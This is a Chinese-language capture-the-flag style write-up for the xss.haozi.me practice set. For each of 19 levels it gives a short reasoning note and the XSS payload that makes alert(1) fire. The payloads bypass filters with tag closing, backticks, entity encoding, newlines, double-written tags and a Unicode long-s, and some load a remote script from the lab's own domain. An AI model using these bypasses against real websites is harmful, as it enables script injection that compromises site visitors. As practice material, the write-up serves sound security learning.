 简单的XSS弹窗练习，通过输入使弹窗显示“1”即可。  
URL:https://xss.haozi.me/  

# 0x00
思路：无任何过滤，直接通过alert弹窗，script标签闭合。  
payload:

```
<script>alert(1)</script>
```

# 0x01
思路：无任何过滤，通过textarea标签包含输入内容，所以先闭合textarea标签即可。  
payload:

```
</textarea><script>alert(1)</script>
```

# 0x02
思路：将输入内容包含到了value值中，所以先闭合value值和input标签即可。  
payload:

```
"><script>alert(1)</script>
```

# 0x03
思路：服务器端将“(”和“)”过滤，无法直接通过alert(1)实现，通过反括号“`”即可。  
payload:

```
<script>alert`1`</script>
```

# 0x04
思路：服务器端将“(”、“)”和“`”过滤，此时考虑将括号转义，通过<svg>标签执行html转义字符。  
payload:

```
<svg><script>alert&#x28;1&#x29;</script>
```

# 0x05
思路：服务器端将“-->”过滤，“<\!--”可以通过“-->”和“--!>”两种方式闭合。  
payload:

```
--!><script>alert(1)</script>
```

# 0x06
思路：服务器端将以auto、on开头，=为结尾的属性过滤，通过换行绕过过滤。  
payload:

```
type="image" src onerror
="alert(1)"
```

# 0x07
思路：服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行。 
payload:

```
<body onload="alert(1)"
```


# 0x08
思路：服务器端将<>内的内容过滤，通过换行绕过即可。  
payload:

```
</style
><script>alert(1)</script>
```

# 0x09
思路：根据输入要求先输入https://www.segmentfault.com进行匹配，然后闭合script标签即可。  
payload:

```
https://www.segmentfault.com"></script><script>alert(1)</script>
```

# 0x0A
思路：服务器端已经对一些符号进行了过滤，根据输入要求先输入https://www.segmentfault.com进行匹配，然后通过网址运行js脚本即可。  
payload:

```
https://www.segmentfault.com.haozi.me/j.js
```

# 0x0B
思路：服务器端将输入字符串全部转成了大写，但html标签和域名不区分大小写，通过网址运行js脚本即可。
payload:

```
<script src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0C
思路：服务器端将输入字符串全部转成了大写，同时对script字符进行了一次过滤，通过双写script在过滤一遍后保留其中一个即可。  
payload:

```
<scscriptript src="https://www.segmentfault.com.haozi.me/j.js"></scrscriptipt>
```

# 0x0D
思路：输入内容包含在script标签的注释中，通过换行绕开注释，在结尾输入-->注释掉后括号。  
payload:

```

alert(1)
-->
```

# 0x0E
思路：输入字符<后的字母都会被转义，通过古英文中s的写法“ſ”可以绕过基于ascii码判断的字母转义，并通过外部url绕过字符串大写转义。  
payload:

```
<ſcript src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0F
思路：表面上对输入的&,',",<,>,\和/字符进行了html转义，但实际上在解析过程中html解析先于js解析，转义工作无意义。先闭合引号和括号，再注释掉后面的内容即可。  
payload:

```
');alert(1)//
```

# 0x10
思路：无任何过滤。  
payload:

```
alert(1)
```

# 0x11
思路：虽然"被转义为\\"，但输入一个后双引号正好可以把\闭合到引号中，再闭合括号，注释掉后面内容即可。  
payload:

```
"),alert(1)//
```

# 0x12
思路：闭合script标签重新构造即可。  
payload:

```
</script>
<script>alert(1)</script>
```

# 总结
整体而言题目偏简单，难度并非逐题提高，而且源码已经放出可以直接分析，可供新手练习，熟悉JavaScript标签。未来可以尝试每道题提出更多解法。
